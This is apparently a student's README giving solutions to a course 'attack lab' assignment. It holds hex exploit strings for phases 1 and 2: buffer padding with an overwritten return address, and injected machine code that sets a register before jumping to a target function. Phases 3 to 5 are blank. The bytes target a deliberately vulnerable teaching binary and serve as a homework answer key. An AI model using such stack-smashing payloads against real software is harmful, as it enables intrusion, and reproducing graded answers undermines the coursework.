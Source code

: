 # attack_lab
see assignment details at attacklab.pdf

## phase 1 solution
```
// 40 bytes
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## phase 2 solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## phase 3 solution

## phase 4 solution

## phase 5 solution
